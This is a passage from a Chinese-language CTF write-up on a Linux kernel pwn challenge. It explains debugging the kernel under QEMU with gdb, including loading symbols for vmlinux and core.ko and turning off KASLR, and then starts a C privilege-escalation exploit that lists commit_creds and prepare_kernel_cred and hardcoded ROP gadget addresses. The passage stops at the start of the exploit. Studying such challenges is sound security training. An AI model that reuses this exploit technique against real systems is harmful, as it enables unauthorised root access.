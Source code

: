当知道 exp 思路之后, 其他的一切就简单起来, 只需要看懂他然后实现即可.

### 4. gbb 调试 qemu 中内核基本方法

#### 众所周知, 调试在 pwn 中是十分重要的, 特别是动调, 所以这里介绍下 gdb 调试内核的方法

由于咱们的内核是跑在 qemu 中, 所以我们 gdb 需要用到远程调试的方法, 但是如果直接连端口的话会出现没符号表不方便调试的, 所以我们需要自行导入内核模块, 也就是文件提供的`vmlinux`, 之后由于咱们还需要 core.ko 的符号表, 所以咱们也可以通过自行导入来获得可以, 通过 `add-symbol-file core.ko textaddr` 加载 , 而这里的`textaddr`即为`core.ko`的`.tex`t 段地址, 我们可以通过修改`init`中为`root`权限进行设置.  
这里. text 段的地址可以通过 `/sys/modules/core/section/.text` 来查看，  
这里强烈建议大伙先关 kaslr(通过在启动脚本修改, 就是将 kaslr 改为 nokaslr) 再进行调试, 效果图如下  
![](http://imgsrc.baidu.com/super/pic/item/5882b2b7d0a20cf48316b11d33094b36adaf996a.jpg)  
我们可以通过`-gdb tcp:port`或者 `-s`来开启调试端口，`start.sh` 中已经有了 -s，不必再自己设置。(对了如果 - s , 他的功能等同于 - gdb tcp:1234)  
在我们获得. text 基地址后记得用脚本来开 gdb, 不然每次都要输入这么些个东西太麻烦了, 脚本如下十分简单:

```
#!/bin/bash
gdb -q \
  -ex "" \
  -ex "file ./vmlinux" \
  -ex "add-symbol-file ./extract/core.ko 0xffffffffc0000000" \
  -ex "b core_copy_func" \
  -ex "target remote localhost:1234" \

```

其中打断点可以先打在 core_read, 这里打在 core_copy_func 是我调到尾声修改的. 这里还注意一个点, 就是当采用 pwndbg 的时侯需要 root 权限才可以进行调试不然会出现以下错误  
![](http://imgsrc.baidu.com/super/pic/item/77094b36acaf2edd1b05062bc81001e938019378.jpg)  
最开始气死我了, 人家 peda 都不要 root, 但是最开始不清楚为什么会错, 我还以为是版本问题, 但想到这是我最近刚配的一台机子又应该不是, 其实最开始看到 permission 就该想到的, 害.  
我们用 root 权限进行开调  
![](http://imgsrc.baidu.com/super/pic/item/0824ab18972bd40717299c3f3e899e510eb30901.jpg)  
可以看到十分的成功, 此刻我 continue, 还记得咱们下的断电码, b core_read, 如果咱们调用它后咱们就会在这里停下来, 此刻我们运行咱们的程序试试  
![](http://imgsrc.baidu.com/super/pic/item/b7003af33a87e950aaf6bcae55385343faf2b40b.jpg)  
这样咱们就可以愉快的进行调试啦, 至此 gdb 调试内核基本方法到此结束~~~

### 5. ROP 链解析

这里简单讲讲, 直接给图  
![](http://imgsrc.baidu.com/super/pic/item/7c1ed21b0ef41bd5b84aa63614da81cb38db3dd2.jpg)  
相信大家理解起来不费力.

### 6. exp

本次 exp 如下, 大伙看看

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = NULL, prepare_kernel_cred = NULL;        // address of to key function
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RDI_RET 0xffffffff81000b2f  
#define POP_RCX_RET 0xffffffff81021e53
```